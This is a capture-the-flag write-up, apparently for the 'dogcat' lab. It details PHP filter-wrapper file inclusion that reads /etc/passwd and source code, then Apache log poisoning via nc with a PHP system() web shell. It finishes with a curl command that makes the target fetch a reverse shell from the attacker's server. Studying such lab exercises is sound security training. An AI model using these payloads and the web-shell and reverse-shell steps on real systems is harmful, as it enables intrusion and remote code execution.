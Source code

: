DOGCAT
===
- [x] FLAG1

First, I press F12 want to find any clue, but I don'y find.  
Seccond, I press DOG and CAT button, I got a lot cute picture, and I know **view** only allow dog or cat word.
![image](https://user-images.githubusercontent.com/67756786/195544351-dca3ecb7-941a-4f6d-b731-c2a414ddc0cb.png)

Now I try **php wraper** to take web code.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog
```

Got a text base on base64.
![image](https://user-images.githubusercontent.com/67756786/195545334-346cbd14-f4cd-4693-a74c-26a52680e9f3.png)

Decode, and then we know cute picture will be readomly picked out of ten.

![image](https://user-images.githubusercontent.com/67756786/195545544-018317ee-f418-41e9-956d-fdaac5b585d7.png)

Now, we try to take /etc/passwd

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd
```
First warring message is talk about path error, and it show us path is dog/../../../../etc/passwd.php.
Obviously, web code should be **include(_GET(view).php)**

![image](https://user-images.githubusercontent.com/67756786/195548462-a80629d6-aa6b-4645-b9ac-78ab62662eba.png)

We use %00 to comment that.
Path is correct but still got error.
![image](https://user-images.githubusercontent.com/67756786/195550444-82fc62ef-cd2c-4f00-ae25-ae96617249cc.png)

Now we need to know that the web how to write.

```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../index
```
![image](https://user-images.githubusercontent.com/67756786/195551181-9ca38a4e-946e-4e4f-a94f-7ac00307154e.png)

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>

```

According to index.php source code, we know we have two variable , and we can use GET to change them. 
One of variable, ext, it's default value is .php,No wonder we use /etc/passwd to LFI will get error.

Now we need check /etc/passwd again.
```
http://10.10.162.32//?view=php://filter/convert.base64-encode/resource=dog/../../../../etc/passwd&ext=
```
work!
![image](https://user-images.githubusercontent.com/67756786/195553839-b10f7fb6-023f-4d19-9844-9ffe524981b8.png)

Then we need to find where can excute RCE vulnerable.  
First, confirm what web server

![image](https://user-images.githubusercontent.com/67756786/195554515-62f65ee8-f2d2-4730-b4f6-4a17e62a6bbf.png)

Second, confirm where apache log file
![image](https://user-images.githubusercontent.com/67756786/195555607-9db42cbd-a824-4ea2-8e19-c1785156e75b.png)

Finaly, try to got apache access.log
```
http://10.10.162.32//?view=dog/../../../../var/log/apache2/access&ext=.log
```
Work, nice!
![image](https://user-images.githubusercontent.com/67756786/195556701-5a70e822-e099-4857-9d17-e43fd7adffd4.png)

Now we try access.log can injection or not.
```
echo -e "GET <?php phpinfo(); ?>"| nc 10.10.162.32 80
```
Work
![image](https://user-images.githubusercontent.com/67756786/195557135-6a978839-dad3-4fdd-a902-765dc8206e2f.png)

Now I want put web shell into that.
```
echo -e "GET <?php if(isset($_GET['cmd']))  {  system($_GET['cmd']);  }?>" | nc 10.10.162.32 80
```
But I got this error message, and then I reboot target machine.
![image](https://user-images.githubusercontent.com/67756786/195541111-f95d8e1f-1e61-4993-8f85-7c2c0fa74aa2.png)

And then I think that I just want to print result of excution, after that I change my RCE code.

```
 echo -e "<?php system(\$_GET[B]); ?>" | nc 10.10.142.129 80
```

Success!
![image](https://user-images.githubusercontent.com/67756786/195745918-9ef79f1d-3981-4432-8764-c8382e9c0e56.png)

Now we need to uplode php reverse shell and excute it.  
First, uploade php revere shell, we can use python http server and use curl dowload reverse shell.
Second, excute this reverse shell.
php reverse shell(https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  
If you reverse shell is ready, we can open python http server
![image](https://user-images.githubusercontent.com/67756786/195754923-4cc04d9b-d523-4f31-902c-e1e562060afb.png)

After, we dowload and excute that.  
Dowload
```
http://10.10.142.129/?ext=&view=dog/../../../../var/log/apache2/access.log&B=curl -o /var/www/html/s.php%20http://10.10.180.17/shell.php
```
Excute
```
http://10.10.142.129/?view=dog/../s
```
But, got a error message, seem to be not use this method.

![image](https://user-images.githubusercontent.com/67756786/195755156-0699cb87-02fe-46af-a4b0-3a09d01d1eb2.png)

One day ago, I conscious my dowload URL is error, default port of python http server is 8000.  
Later, I do it again, same method, and work!

revereshell
![image](https://user-images.githubusercontent.com/67756786/195756571-aa5bc548-2fcc-4a9c-a1e6-e935aef44fcd.png)



- [x] FLAG2
- [x] FLAG3
- [x] FLAG4
